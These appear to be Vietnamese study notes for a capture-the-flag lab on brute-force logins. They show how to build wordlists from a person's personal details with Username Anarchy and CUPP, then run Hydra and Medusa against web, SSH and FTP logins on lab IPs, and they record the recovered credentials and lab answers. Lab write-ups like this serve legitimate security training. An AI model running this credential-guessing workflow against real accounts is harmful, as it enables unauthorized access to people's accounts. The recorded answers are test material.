




### **Sử dụng các từ điển tùy chỉnh trong các cuộc tấn công brute-force:**

Trong các cuộc tấn công brute-force, việc sử dụng các **từ điển tùy chỉnh (custom wordlists)** giúp tăng hiệu quả và giảm thời gian so với việc sử dụng các từ điển có sẵn như **rockyou** hay **SecLists**, vì chúng được tạo ra dựa trên thông tin riêng biệt của mục tiêu, làm tăng khả năng thành công của cuộc tấn công.

#### **1. Quét và Tạo Username với Username Anarchy**:

Khi đối mặt với một mục tiêu cụ thể như **Jane Smith**, việc tạo ra một danh sách tên người dùng từ các tên cơ bản và kết hợp những kiểu phổ biến có thể bao gồm:

* **Kết hợp tên và họ**: janesmith, smithjane
* **Sử dụng tên viết tắt**: js, j.s., s.j., v.v.
* **Các biến thể khác**: sử dụng leetspeak, ký tự đặc biệt, hoặc thậm chí kết hợp sở thích cá nhân vào tên người dùng.

**Công cụ: `Username Anarchy`** giúp tạo ra một danh sách các tên người dùng có thể từ những thông tin cơ bản (tên, họ).
```bash
 sudo apt install ruby -y
 git clone https://github.com/urbanadventurer/username-anarchy.git
 cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

Kết quả sẽ là một danh sách tên người dùng đa dạng, từ đó có thể sử dụng trong cuộc tấn công brute-force.

#### **2. Tạo Mật Khẩu Tùy Chỉnh với CUPP**:

**CUPP** (Common User Password Profiler) là công cụ giúp tạo ra các từ điển mật khẩu tùy chỉnh, sử dụng thông tin cá nhân về mục tiêu như:

* **Tên** và **họ**
* **Ngày sinh**, **nickname**, **sở thích**, **mối quan hệ**, **số điện thoại**, v.v.

CUPP sẽ tạo ra một danh sách mật khẩu có thể bao gồm các biến thể từ thông tin cá nhân, như:

* **Tên gốc và chữ hoa**: jane, Jane
* **Ngày sinh**: jane1990, smith1212
* **Kết hợp các ký tự đặc biệt**: jane!, smith@, v.v.

Để tạo danh sách mật khẩu, ta có thể nhập thông tin vào CUPP trong chế độ tương tác:

```bash
cupp -i
```

Sau khi tạo mật khẩu, có thể lọc ra các mật khẩu phù hợp với chính sách của hệ thống, ví dụ như yêu cầu có ít nhất một ký tự hoa, một ký tự thường, một số, và hai ký tự đặc biệt.

Ví dụ lọc mật khẩu:

```bash

```

#### **3. Sử dụng Hydra để Tấn Công Brute-Force**:

Sau khi có danh sách tên người dùng và mật khẩu, ta sử dụng **Hydra** để thực hiện tấn công brute-force vào form đăng nhập của trang web. Hydra sẽ thử tất cả các kết hợp tên người dùng và mật khẩu từ danh sách đã tạo.

Ví dụ lệnh:

```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

Kết quả sẽ trả về **cặp tên người dùng và mật khẩu hợp lệ** nếu tìm thấy. Sau đó, người tấn công có thể đăng nhập vào trang web với **credentials** đã phát hiện và lấy cờ.

---

### **Kết luận**:

Các công cụ như **Username Anarchy** và **CUPP** giúp tạo ra các từ điển tùy chỉnh từ thông tin cá nhân của mục tiêu, làm tăng khả năng thành công của các cuộc tấn công brute-force. Sau đó, kết hợp với **Hydra** để thử tất cả các kết hợp từ điển này vào trang web mục tiêu, kẻ tấn công có thể tìm ra mật khẩu và chiếm quyền truy cập vào tài khoản của mục tiêu.
# ** Thực hành**
nmap -sV 83.136.253.59 -p 49534
./username-anarchy Jane Smith > usernames.txt
cupp -i (enter osint infomation)
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
hydra -L usernames.txt -P jane-filtered.txt 83.136.253.59 -s 49534 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Log on and get flag

## Skill Assessment
Part1

tấn công http-get
```bash
 hydra -I \
  -L top-usernames-shortlist.txt \
  -P 2023-200_most_used_passwords.txt \
  -s 32344 -t 16 -f -V \
  94.237.48.12 http-get / \
  -o found.txt
```      
[32344][http-get] host: 94.237.48.12   login: admin   password: Admin123
remember wget raw link from  
https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

Answer: satwossh
hydra -l satwossh -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt ssh://94.237.60.18:57621
Got credentials: login: satwossh password: password1
Now ssh into the target:
ssh satwossh@94.237.122.12 -p45413
Found good files and a convenient tool:
Got hints from the report:

Upon reviewing recent FTP activity, we have identified suspicious behavior linked to a specific user. The user **Thomas Smith** has been regularly uploading files to the server during unusual hours and has bypassed multiple security protocols. This activity requires immediate investigation.


All logs point towards Thomas Smith being the FTP user responsible for recent questionable transfers. We advise closely monitoring this user’s actions and reviewing any files uploaded to the FTP server.
I used username-anarchy with Thomas Smith:
./username-anarchy/username-anarchy Thomas Smith > thomas_smith_usernames.txt
finally happy attack time:
medusa -h 127.0.0.1 -U thomas_smith_usernames.txt -P passwords.txt -M ftp -t 5 | grep SUCCESS
Got the credentials thomas:chocolate!.

ftp ftp://thomas@localhost
ls
get flag.txt
!cat flag.txt
